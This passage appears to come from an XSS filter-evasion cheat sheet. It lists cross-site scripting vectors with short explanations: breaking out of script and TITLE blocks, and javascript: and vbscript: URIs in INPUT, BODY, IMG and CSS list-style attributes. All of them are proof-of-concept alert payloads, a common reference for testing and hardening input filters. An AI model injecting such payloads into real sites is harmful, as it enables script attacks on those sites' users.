     `\";alert('XSS');//`

An alternative, if correct JSON or Javascript escaping has been applied
to the embedded data but not HTML encoding, is to finish the script
block and start your own:

    </script>

    <script>

    alert('XSS');

    </script>

## End title tag

This is a simple XSS vector that closes

    <TITLE>

tags, which can encapsulate the malicious cross site scripting attack:

    `</TITLE><SCRIPT>alert("XSS");</SCRIPT>`

## INPUT image

    `<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

## BODY image

    `<BODY BACKGROUND="javascript:alert('XSS')">`

## IMG Dynsrc

    `<IMG DYNSRC="javascript:alert('XSS')">`

## IMG lowsrc

    `<IMG LOWSRC="javascript:alert('XSS')">`

## List-style-image

Fairly esoteric issue dealing with embedding images for bulleted lists.
This will only work in the IE rendering engine because of the JavaScript
directive. Not a particularly useful cross site scripting vector:

    `<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

## VBscript in an image

    `<IMG SRC='vbscript:msgbox("XSS")'>`
